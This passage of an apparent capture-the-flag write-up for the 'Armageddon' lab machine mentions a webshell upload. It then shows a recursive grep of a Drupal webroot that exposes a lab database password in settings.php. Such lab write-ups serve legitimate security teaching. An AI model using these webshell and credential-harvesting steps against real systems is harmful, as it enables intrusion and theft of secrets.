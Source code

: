 
It uploads php webshell, and opens an interactive shell.



# Shell as `brucetherealadmin`

### Find DB credential

Let's check if there's any credential saved in the webroot directory using `grep`.

```bash
armageddon.htb>> grep -ir "password" .

<SNIP>
./sites/default/default.settings.php: *     'password' => 'password',
./sites/default/default.settings.php: *     'password' => 'password',
./sites/default/default.settings.php: * by using the username and password variables. The proxy_user_agent variable
./sites/default/default.settings.php:# $conf['proxy_password'] = '';
./sites/default/settings.php: *   'password' => 'password',
./sites/default/settings.php: * username, password, host, and database name.
./sites/default/settings.php: *   'password' => 'password',
./sites/default/settings.php: *   'password' => 'password',
./sites/default/settings.php: *     'password' => 'password',
./sites/default/settings.php: *     'password' => 'password',
./sites/default/settings.php:      'password' => 'CQHEy@9M*m23gBVj',
./sites/default/settings.php: * by using the username and password variables. The proxy_user_agent variable
./sites/default/settings.php:# $conf['proxy_password'] = '';
./themes/bartik/css/ie.css:#password-strength-text {
<SNIP>
```

It seems that `./sites/default/settings.php` file contains valid password.

```php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
